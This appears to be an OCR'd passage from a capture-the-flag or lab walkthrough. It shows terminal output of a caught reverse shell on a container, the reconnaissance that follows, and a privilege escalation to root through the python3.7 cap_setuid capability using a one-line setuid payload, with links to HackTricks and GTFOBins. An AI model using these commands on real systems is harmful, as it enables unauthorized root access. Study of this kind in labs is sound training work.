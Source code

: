 ```jsx
listening on [any] 11143 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.65.171] 58348
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

daemon@4a70924bafa0:/bin$ whoami
daemon
daemon@4a70924bafa0:/bin$ pwd 
/bin
daemon@4a70924bafa0:/bin$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

daemon@4a70924bafa0:/bin$ SHELL=/bin/bash script -q /dev/null
daemon@4a70924bafa0:/bin$ export TERM=xterm

daemon@4a70924bafa0:/bin$ uname -a
Linux 4a70924bafa0 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 GNU/Linux
daemon@4a70924bafa0:/bin$ dpkg --version
Debian 'dpkg' package management program version 1.19.7 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

daemon@4a70924bafa0:/bin$ groups
daemon
daemon@4a70924bafa0:/bin$ getent group daemon
daemon:x:1:
daemon@4a70924bafa0:/bin$ 
```

> **Privilege Escalation with Capabilities**
> 

**For more information:**

[Linux Capabilities | HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

[python
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/python/)

```jsx
daemon@4a70924bafa0:/bin$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep

daemon@4a70924bafa0:/bin$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

root@4a70924bafa0:/bin# whoami
root

root@4a70924bafa0:/bin# cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      4a70924bafa0

root@4a70924bafa0:/bin# ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
```